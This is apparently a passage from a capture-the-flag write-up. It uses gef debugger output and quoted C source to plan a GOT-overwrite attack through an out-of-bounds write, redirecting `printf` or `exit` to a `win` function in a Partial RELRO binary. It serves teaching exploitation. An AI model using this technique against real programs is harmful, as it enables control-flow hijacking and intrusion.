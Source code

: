 Oh, it's not in the `slot` memory address! It's now in address `0x404050`!

```shell
gef➤  x/-6gx 0x0000000000404060
0x404030:	0x0000000000000000	0x0000000000000000
0x404040 <stdout@GLIBC_2.2.5>:	0x00007ffff7f94760	0x0000000000000000
0x404050 <stdin@GLIBC_2.2.5>:	0x00007ffff7f93a80	0x0000053900000000
```

## Exploitation

Hmm... Now we can leverage the out-of-bounds write vulnerable to overwrite an address's value. But where should we overwrite to?

Since the binary doesn't have GOT protection (Partial RELRO), we can try to **hijack a GOT function to the `win` function address**. In the debugging session, we can enter `got` command to see all the GOT functions:

```shell
gef➤  got
[...]
GOT protection: Partial RelRO | GOT functions: 6
 
[0x404000] puts@GLIBC_2.2.5  →  0x401030
[0x404008] setbuf@GLIBC_2.2.5  →  0x7ffff7e3f2c0
[0x404010] printf@GLIBC_2.2.5  →  0x7ffff7e135b0
[0x404018] execve@GLIBC_2.2.5  →  0x401060
[0x404020] __isoc99_scanf@GLIBC_2.7  →  0x7ffff7e13150
[0x404028] exit@GLIBC_2.2.5  →  0x401080
```

Now you might ask: "Which GOT function should we hijack?"

Because the `main` function only executes once, we have to hijack functions that are going to be used right after the out-of-bounds write operation, which are `printf` and `exit`:

```c
int main() {
  [...]
  slot[index] = value;

  for (int i = 0; i < 10; i++)
    printf("slot[%d] = %d\n", i, slot[i]);

  exit(0);
}
```

Hmm... Hijack `printf` GOT function? If we look at the value of its' address, it is 6 bytes long:

```shell
gef➤  got
[...]
[0x404010] printf@GLIBC_2.2.5  →  0x7ffff7e135b0
```

Let's try to hijack it.
